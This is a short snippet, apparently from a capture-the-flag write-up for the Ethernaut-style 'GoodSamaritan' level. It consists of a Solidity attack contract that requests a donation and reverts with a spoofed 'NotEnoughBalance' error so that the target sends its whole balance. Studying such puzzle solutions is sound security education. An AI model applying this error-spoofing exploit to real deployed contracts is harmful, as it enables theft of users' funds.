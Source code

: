 ### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../levels/GoodSamaritan.sol";

error NotEnoughBalance();

contract GoodSamaritanAttack {

  function attack(address _goodSamaritan) external {
    GoodSamaritan(_goodSamaritan).requestDonation();
  }

  function notify(uint256 amount_) external pure {
    if(amount_ <= 10) {
      revert NotEnoughBalance();
    }
  }
}
```